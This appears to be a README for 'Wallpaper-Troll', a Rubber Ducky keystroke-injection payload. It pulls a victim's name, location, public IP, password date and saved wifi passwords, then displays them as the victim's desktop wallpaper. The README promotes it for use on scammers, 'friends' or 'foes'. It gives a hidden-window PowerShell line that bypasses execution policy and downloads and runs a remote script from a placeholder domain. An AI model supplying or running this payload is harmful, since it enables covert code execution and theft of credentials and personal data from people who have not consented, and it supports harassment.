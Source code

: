 ##

<!-- TABLE OF CONTENTS -->
<!--TABLE 0F C0NTENTS-->

# Wallpaper-Troll

A script I put together to torment Call Center Scammers but can be used on your friends as well...or foes.

## Description

This program enumerates a target PC to get their Name, GeoLocation (Latitude and Longitude), Public IP, Day password was last set, and wifi passwords. This information will be saved to a file that is then converted to a .BMP image. That image will be saved to their desktop and saved as their wallpaper. Opening the image on their desktop with NotePad will reveal the binary code with a hidden message at the bottom of the file.

![alt text](https://github.com/M3!/hak5-submissions/blob/main/RubberDucky/Payloads/RD-Wallpaper-Troll/wp-troll.jpg)

## Getting Started

### Dependencies

* Windows 10,11

##

### Executing program

* Plug in your device
* Invoke-RestMethod will be entered in the Run Box to download and execute the script from memory
```
powershell -w h -NoP -NonI -Ep Bypass irm MYDOMAIN.HERE/b8n | iex
```

##

##